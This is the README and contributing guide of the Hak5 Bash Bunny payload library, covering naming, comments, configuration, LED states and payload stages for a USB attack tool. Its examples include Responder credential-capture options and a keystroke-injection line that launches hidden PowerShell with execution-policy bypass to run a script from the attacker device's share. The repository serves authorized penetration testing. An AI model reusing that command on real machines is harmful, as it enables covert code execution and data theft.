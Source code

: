 # Payload Library for the Bash Bunny

This repository contains payloads and extensions for the Hak5 Bash Bunny. Community developed payloads are listed and developers are encouraged to create pull requests to make changes to or submit new payloads.

## About the Bash Bunny

By emulating combinations of trusted USB devices — like gigabit Ethernet, serial, flash storage and keyboards — the Bash Bunny tricks computers into divulging data, exfiltrating documents, installing backdoors and many more exploits.
-   [Purchase at Hak5](https://hak5.org/products/bash-bunny "Purchase at Hak5")
-   [Documentation](https://docs.hak5.org/bash-bunny/ "Documentation")
-   [Bash Bunny Forums](https://forums.hak5.org/forum/92-bash-bunny/ "Forums")
-   Discord:  [https://hak5.org/discord](https://hak5.org/discord)

## Disclaimer
Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this repository are provided AS-IS without warranty. While Hak5 makes a best effort to review payloads, there are no guarantees as to their effectiveness. As with any script, you are advised to proceed with caution.

## Legal
Payloads from this repository are provided for educational purposes only.  Hak5 gear is intended for authorized auditing and security analysis purposes only where permitted subject to local and international laws where applicable. Users are solely responsible for compliance with all laws of their locality. Hak5 LLC and affiliates claim no responsibility for unauthorized or unlawful use.

## Contributing
Once you have developed your payload, you are encouraged to contribute to this repository by submitting a Pull Request. Reviewed and Approved pull requests will add your payload to this repository, where they may be publically available.

Please adhere to the following best practices and style guide when submitting a payload.

### Naming Conventions
Please give your payload a unique and descriptive name. Do not use spaces in payload names. Each payload should be submit into its own directory, with `-` or `_` used in place of spaces, to one of the categories such as exfiltration, phishing, remote_access or recon. Do not create your own category.

### Binaries
Binaries may not be accepted in this repository. If a binary is used in conjunction with the payload, please document where it or its source may be obtained.

### Comments
Payloads should begin with comments specifying at the very least the name of the payload and author. Additional information such as a brief description, the target, any dependencies / prerequisites and the LED status used is helpful.

    Title: SMB Exfiltrator
    Description: Exfiltrates files from %userprofile%\documents via SMB
    Author: Hak5Darren
    Target: Windows XP SP3 - Latest
    Dependencies: impacket
   
### Configuration Options
Configurable options should be specified in variables at the top of the payload.txt file

    # Options
    RESPONDER_OPTIONS="-w -r -d -P"
    LOOTDIR=/root/udisk/loot/quickcreds

### LED
The payload should use common payload states rather than unique color/pattern combinations when possible with an LED command preceding the Stage or ATTACKMODE.

    # Initialization
    LED SETUP
    GET SWITCH_POSITION
    GET HOST_IP
    
    # Attack
    LED ATTACK
    ATTACKMODE HID ECM_ETHERNET

### Stages and States
Stages should be documented with comments

    # Keystroke Injection Stage
    # Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
    GET HOST_IP
    LED STAGE1
    ATTACKMODE HID
    RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""

Common payload states include a `SETUP`, with may include a `FAIL` if certain conditions are not met. This is typically followed by either a single `ATTACK` or multiple `STAGEs`. More complex payloads may include a `SPECIAL` function to wait until certain conditions are met. Payloads commonly end with a `CLEANUP` phase, such as moving and deleting files or stopping services. A payload may `FINISH` when the objective is complete and the device is safe to eject or turn off. These common payload states correspond to `LED` states.


